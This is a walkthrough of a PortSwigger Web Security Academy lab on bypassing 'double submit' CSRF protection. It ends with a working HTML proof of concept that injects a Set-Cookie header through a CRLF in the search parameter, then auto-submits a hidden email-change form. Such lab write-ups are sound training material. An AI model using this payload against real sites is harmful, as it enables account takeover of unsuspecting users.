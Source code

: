 
# CSRF where token is duplicated in cookie

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

Hint: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-token-validation



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/1.png)

---------------------------------------------

We find the CSRF token value in the POST parameter and the Cookie HTTP header, with the same value:



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/2.png)

Using a random value, it still works:



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/3.png)


The search function uses again the LastSearchTerm parameter with the last searched term:



![img](images/CSRF%20where%20token%20is%20duplicated%20in%20cookie/4.png)


We will update the PoC from the previous lab:

```
 <form action="https://0ab500c8032ce2a580584e1000e20095.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="tes1t1&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="test" />
      <input type="submit" value="Submit request" />
    </form>
<img src="https://0ab500c8032ce2a580584e1000e20095.web-security-academy.net/?search=abc%0d%0aSet-Cookie:%20csrf=test%3b%20SameSite=None" onerror="document.forms[0].submit();"/>

```


